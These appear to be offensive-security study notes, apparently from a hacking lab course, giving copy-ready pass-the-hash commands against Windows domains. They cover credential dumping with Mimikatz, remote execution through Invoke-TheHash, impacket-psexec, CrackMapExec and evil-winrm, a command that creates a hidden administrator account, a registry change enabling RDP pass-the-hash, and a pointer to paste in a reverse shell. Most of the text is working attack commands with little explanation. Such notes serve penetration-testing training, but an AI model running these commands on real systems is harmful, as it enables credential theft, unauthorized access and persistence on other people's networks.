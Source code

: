 ---------------------------
# Windows NTLM Introduction
-------------------------
- Using Mimikatz
	- Log in using hashes 
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

		# Options
		/user - The username we want to impersonate
		/rc4 or /NTLM - NTLM hash of the user's password
		/domain - Domain the user to impersonate belongs to.
		/run - the program we want to run once logged in	
	```
	- Extract hashes in the same session
	```cmd
	mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
	```
	
- PowerShell Invoke-TheHash
```PowerShell
# Invoke-TheHash with SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Note we can create a reverse shell from this command
# Go to this page to set up a revesere shell https://www.revshells.com/
# Paste whatever generated into the -Command flag
```

```PowerShell
# Invoke-TheHash with WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
```

- Pass the Hash with Impacket PsExec
```bash
impacket-psexec administrator@$IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

- Pass the Hash with CrackMapExec
```bash
crackmapexec smb $IP -u $USERNAME -d . -H $HASH

# Execute command with CrackMapExec
crackmapexec smb $Ip -u $USERNAME -d . -H $HASH -x $COMMAND
```

- Pass the Hash with evil-winrm
```bash
evil-winrm -i $IP -u $USERNAME -H $HASH
```

- Pass the Hash with RDP
	- Precondition: Restricted Admin Mode must be enabled on the TARGET
	```cmd
	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	
	# Options:
	/t: Type of the registry
	/v: Name of the add of the registry
	/d: data of the added registry
	/f: Add the registry without confirmation
	```
	- Run xfreerdp with /pth flag
	```bash
	xfreerdp /v:$IP /u:$USERNAME /pth:$HASH
	```


